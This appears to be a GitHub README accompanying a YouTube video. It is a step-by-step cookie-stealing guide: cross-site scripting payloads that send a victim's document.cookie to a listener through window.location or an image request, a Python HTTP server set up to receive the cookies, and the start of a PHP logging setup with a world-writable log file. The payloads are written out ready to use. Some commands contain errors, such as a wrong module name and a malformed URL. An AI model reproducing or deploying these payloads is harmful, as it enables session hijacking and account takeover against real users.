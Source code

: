 # Stealling Cookies

All Payload that used from this Youtube Video:

https://youtu.be/Kh1sgI5yLdk


Payloads:

# Takeing The Cookie From Python3 Server Listener:

1- Strat Python Server:

YasserREED > Python3 -m Server.http 3333 <- Any Port You Like!

2- write Payload with window.location() function:

<script> window.location='https://127.0.0.1/:3333?cookie='+document.cookie </script> 


# Send Cookies without go to another window :

1- Strat Python Server:

YasserREED> Python3 -m Server.http 3333 <- Any Port You Like!

2- Write the Pyaload:

<script>
    var i = new Image();
    i.src="http://127.0.0.1:3333/?cookie="+document.cookie
</script>  


# Wirte PHP Code To Take the Cookie:

1- go to html File:

[~] YasserREED> cd  /var/www/html

2- Make File get.php:

YasserrEED> sudo gedit get.php

// Code with the File Just Copy it 

2- Make log.txt file:

YasserRED> sudo touch log.txt

3- Give all Privileges:

YasserREED> sudo chmod 777 log.txt



